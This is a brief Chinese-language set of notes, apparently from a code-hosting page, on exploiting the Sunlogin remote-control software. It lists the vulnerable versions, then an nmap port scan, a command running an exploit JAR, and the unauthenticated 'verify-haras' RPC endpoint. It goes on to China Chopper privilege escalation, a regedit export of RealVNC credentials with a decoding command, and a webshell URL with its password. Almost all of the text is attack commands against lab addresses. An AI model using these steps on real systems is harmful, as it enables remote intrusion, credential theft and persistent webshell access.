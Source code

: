 向日葵是一款面向企业和专业人员的远程pc管理和控制的服务软件。可以在任何有网络的情况下，轻松访问并控制安装了向日葵客户端的远程主机。同时还能实现远程文件传输、远程视频监控等功能，这不仅为用户的使用带来很多便捷，还能为其提供各类保障。

影响版本：
向日葵个人版for Windows <= 11.0.0.33
向日葵简约版 <= V1.0.1.43315（2021.12）


tasklist /svc
nmap -p 30000-65535 192.168.163.158
java --module-path javafx-sdk-17.0.10/lib --add-modules javafx.controls,javafx.fxml  -jar Sunlogin漏洞利用工具.jar
`http://192.168.163.158:49188/cgi-bin/rpc?action=verify-haras`


中国菜刀提权
Cmd /c "regedit /e c:\123.reg "HKEY_LOCAL_MACHINE\software\RealVNC\WinVNC4" "


vnc>vncx4.exe -W


`http://192.168.163.136:82/dama.asp`
密码：Skull.
